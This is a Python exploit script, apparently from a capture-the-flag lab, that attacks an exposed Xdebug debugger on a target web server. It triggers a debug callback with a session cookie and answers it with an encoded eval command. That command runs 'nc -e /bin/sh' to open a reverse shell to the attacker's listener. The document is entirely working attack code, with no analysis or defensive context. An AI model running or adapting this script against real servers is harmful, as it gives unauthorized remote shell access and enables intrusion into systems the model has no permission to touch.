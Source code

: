 
    #!/usr/bin/env python3

    from base64 import b64encode
    import requests
    import socket
    import sys


    if len(sys.argv) != 2:
        print("{} [nc port]".format(sys.argv[0]))
        sys.exit()

    def get_my_ip():
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        s.connect(("10.10.10.1", 80))
        return s.getsockname()[0]

    ip = get_my_ip()
    port = sys.argv[1]

    print("[!] Have nc listening on {}".format(port))

    # Start Listener
    local_ip = "0.0.0.0"
    local_port = 9000
    print("[*] Starting listener on {}:{}".format(local_ip, local_port))
    s = socket.socket()
    s.bind((local_ip, local_port))
    s.listen(10)
    print("[+] Listening...")

    # Tip server to call back
    print("[*] Sending request to tip xdebug")
    try:
        r = requests.get("http://10.10.10.83/index.php",
                     headers={"Cookie": "XDEBUG_SESSION=wpOCvcWXx5"},
                    timeout=2)
    except:
        pass

    # Catch callback
    conn, addr = s.accept()
    client_data = conn.recv(1024)
    print("[+] Connection received from {}:{} on port {}".format(addr[0], addr[1], local_port))
    cmd = 'system("nc -e /bin/sh {} {}")'.format(ip, port).encode('utf-8')
    print("[*] Sending command get shell on port {}".format(port))
    conn.sendall(('eval -i 1 -- %s\x00' % b64encode(cmd).decode('utf-8')).encode('utf-8'))

    print("[*] Cleaning up. Should have callback")
    s.close()
    conn.close()
